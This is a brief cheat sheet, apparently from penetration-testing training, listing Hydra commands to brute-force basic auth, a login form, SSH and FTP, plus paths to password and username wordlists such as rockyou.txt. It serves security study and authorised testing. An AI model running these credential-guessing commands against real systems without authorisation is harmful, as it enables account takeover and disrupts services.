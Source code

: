 |**Command**| **Description** |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist
|`hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`|Basic Auth Brute Force - User/Pass Wordlists|
|`hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`|Login Form Brute Force - Static User, Pass Wordlist|
|`hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`|SSH Brute Force - User/Pass Wordlists|
|`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`|FTP Brute Force - Static User, Pass Wordlist|
|**Wordlists**||
|`/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`|Default Passwords Wordlist|
|`/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`|Common Passwords Wordlist|
|`/opt/useful/SecLists/Usernames/Names/names.txt`|Common Names Wordlist|